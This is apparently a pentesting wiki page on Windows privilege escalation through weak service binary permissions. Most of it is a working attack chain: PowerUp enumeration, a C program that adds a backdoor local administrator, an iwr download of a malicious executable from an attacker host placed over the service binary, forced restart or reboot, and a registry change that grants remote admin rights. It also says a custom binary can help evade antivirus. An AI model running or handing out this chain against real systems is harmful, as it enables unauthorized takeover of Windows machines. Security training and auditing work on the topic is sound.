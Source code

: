 # 🛠️ Weak service permissions

## Theory

File permissions in Windows control who can access, modify, or execute files on the system. If these permissions are misconfigured, unauthorized users could potentially alter or replace critical files, leading to security vulnerabilities such as unauthorized access.

Here's a quick summary of Windows file permissions based on the provided table:

    F (Full access): Grants complete control over the file, including modifying and deleting it.
    M (Modify access): Allows editing and deleting the file, but not changing permissions.
    RX (Read and execute access): Permits viewing the file and executing it if it's an executable.
    R (Read-only access): Only allows viewing the file without making changes.
    W (Write-only access): Permits writing to the file but not reading or executing it.

## Pratice

### Insecure Permissions on Service Executable :

This type of abuse can occur when the binary of a Windows service is misconfigured, meaning that the permissions for this binary allow, for example, a local user without special privileges to modify it or even replace it with a malicious one, the Attacker can obtain the privileges of the service account in general a high privileges account.

For the enumeration can be done with Powershell, first using native Powershell commands (Living off the Land) But also with [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). The main difference between the two is on the result PowerUp is able to tell you if a service is vulnerable or not while PowerShell just lists the Binary Services. In this example the **aniService** service is misconfigured and vulnerable to this attack.

```bash
# USING POWERSHELL
> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

# USING POWERUP
> Invoke-AllChecks
[*] Checking service executable and argument permissions...


ServiceName    : aniService
Path           : C:\Program Files\AniService\ani.exe
ModifiableFile : C:\Program Files\AniService\ani.exe
StartName      : LocalSystem
AbuseFunction  : Install-ServiceBinary -ServiceName 'aniService'
```

If you have identified your vulnerable binary with a tool like PowerUp or even Winpeas, you can check the permissions of this binary with **icacls.exe**. The most interesting permissions are (F) and (M) if they are related to a group such as `Everyone:` or a local user for exemple. 
```bash
> icacls "C:\Program Files\AniService\ani.exe"
C:\Program Files\AniService\ani.exe AUTORITÉ DE PACKAGE D’APPLICATION\TOUS LES PACKAGES D’APPLICATION:(RX)
                                    AUTORITÉ DE PACKAGE D’APPLICATION\TOUS LES PACKAGES D’APPLICATION RESTREINTS:(RX)
                                    AUTORITE NT\Système:(F)
                                    BUILTIN\Administrateurs:(F)
                                    Tout le monde:(F)
                                    BUILTIN\Utilisateurs:(RX)
```
In the current practical case the executable permission (F) on the group "Everyone", but if the permission was set in (M) it would also have been possible to abuse. Thanks to this bad configuration the attacker can simply replace the binary with another malicious one. it is possible to use PowerUp for automated task.
```bash
> Install-ServiceBinary -ServiceName 'aniService' -User vador -P "D4rkIsD@rk"
```

Once the command is launched it will just need to **restart the service** to be sure that the abuse is well worked. 

The second method consists of creating yourself your malicious binary that can have advantages including the bypass of the AV detection. Here is a simple C code that will execute a system windows command (You can of course replace the system command with another.).
```C
#include <stdlib.h>
int main ()
{
int i;
    i = system("net user vador D4rkIsD@rk /add && timeout /t 2 && net localgroup Administrators vador /add");
return 0;
}

# COMPILE THE CODE
i686-w64-mingw32-gcc <CODE.c> -lws2_32 -o <FILE.exe>
```
Thanks to the wrong permission the attacker can replace the old executable by renominating it for example. Then it will be able to add the new malicious file with a name identical to the original one.
```bash
> move ani.exe ani.exe.bak

# DOWNLOAD THE MALICIOUS EXECUTABLE
> iwr http://<KALI_IP>/malicious.exe -Outfile "C:\Program Files\AniService\ani.exe"
```
Once the binary is replaced you have to restart the service, to check if this is possible a tool of the suite sysinternal can help, [♥accesschk.exe](https://download.sysinternals.com/files/AccessChk.zip) is a tool that allows adminsys to quickly check what type of access users or specific groups have to resources, including files, directories, registry keys, global objects and Windows services.
```bash
./accesschk64.exe /accepteula -ucqv <SERVICE_NAME>

Copyright (C) 2006-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

aniService
  Medium Mandatory Level (Default) [No-Write-Up]
  R  DESKTOP-5VHCKF3\admin
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
```
The permissions that manage the start are **SERVICE_START** and **SERVICE_STOP** if they are present on your user or on a group that controls you then you can restart the service.
```bash
# STOP SERVICE
> net stop <SERVICE_NAME>

# START SERVICE
> net start <SERVICE_NAME>
```
There is an alternative if ever the Startup permissions are not present, with the sc.exe tool you can look at the boot method used by the service. If it is on `AUTO_START`, this means that the service starts at windows boot.
```bash
> sc.exe qc <SERVICE_NAME>
[SC] QueryServiceConfig réussite(s)

SERVICE_NAME: aniService
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\AniService\ani.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Anakin Skywalker Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```
There is a Windows privilege called **SeShutdownPrivilege**, which allows you to reboot a Windows system. With this privilege, you can indirectly restart the service without having the direct permissions to restart it.
```
> shutdown /r /t 0
```
Once the service is rebooted your payload should be run.

A small nuance when adding a local user: there is a registry key named **LocalAccountTokenFilterPolicy** that, when enabled, prevents users in the local administrators groupexcept for those with a RID of 500 (the built-in Administrator account) from obtaining full administrator rights during remote connections, such as to administrative shares like C$. To disable this restriction. The value of the key needs to be changed.
```
> reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /f /v LocalAccountTokenFilterPolicy /t Reg_DWORD /d 1
```
